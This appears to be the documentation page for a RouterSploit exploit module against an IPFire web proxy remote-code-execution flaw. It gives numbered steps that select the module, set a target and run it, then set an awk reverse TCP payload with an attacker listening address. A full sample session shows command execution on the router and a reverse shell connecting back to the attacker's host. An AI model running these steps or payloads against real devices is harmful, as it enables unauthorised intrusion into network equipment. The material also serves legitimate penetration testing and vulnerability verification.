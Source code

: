 ## Description

This module exploits IPFire < 2.19 Core Update 101 Remote Code Execution vulnerability which allows executing
commands on operating system level.

## Verification Steps

    1. Start `./rsf.py`
    2. Do: `use exploits/routers/ipfire/ipfire_proxy_rce`
    3. Do: `set target [TargetIP]`
    4. Do: `run`
    5. If router is vulnerable, it should be possible to execute commands on operating system level.

    6. Do: `set payload awk_reverse_tcp`
    7. Do: `set lhost [AttackerIP]`
    8. Do: `run`
    9. Payload is sent to device and executed providing attacker with the command shell.

## Scenarios

```
rsf > use exploits/routers/ipfire/ipfire_proxy_rce
rsf (IPFire Proxy RCE) > set target 192.168.2.88
[+] target => 192.168.2.88
rsf (IPFire Proxy RCE) > run
[*] Running module...
[+] Target is vulnerable
[*] Invoking command loop...

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > uname -a
[*] Executing 'uname -a' on the device...
Linux ipfire 3.10.44-ipfire #1 SMP Tue Sep 9 18:11:30 GMT 2014 i686 i686 i386 GNU/Linux

cmd > show payloads
[*] Available payloads:

   Payload             Name                Description
   -------             ----                -----------
   awk_bind_udp        Awk Bind UDP        Creates an interactive udp bind shell by using (g)awk.
   awk_bind_tcp        Awk Bind TCP        Creates an interactive tcp bind shell by using (g)awk.
   awk_reverse_tcp     Awk Reverse TCP     Creates an interactive tcp reverse shell by using (g)awk.

cmd > set payload awk_reverse_tcp
cmd (Awk Reverse TCP) > show options

Payload Options:

   Name        Current settings     Description
   ----        ----------------     -----------
   lhost                            Connect-back IP address
   lport       5555                 Connect-back TCP Port
   encoder                          Encoder
   cmd         awk                  Awk binary


cmd (Awk Reverse TCP) > set lhost 192.168.2.100
lhost => 192.168.2.100
cmd (Awk Reverse TCP) > run
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.2.88:44168
[+] Enjoy your shell
uname -a
Linux ipfire 3.10.44-ipfire #1 SMP Tue Sep 9 18:11:30 GMT 2014 i686 i686 i386 GNU/Linux
whoami
nobody
id
uid=99(nobody) gid=99(nobody) groups=16(dialout),23(squid),99(nobody)
```
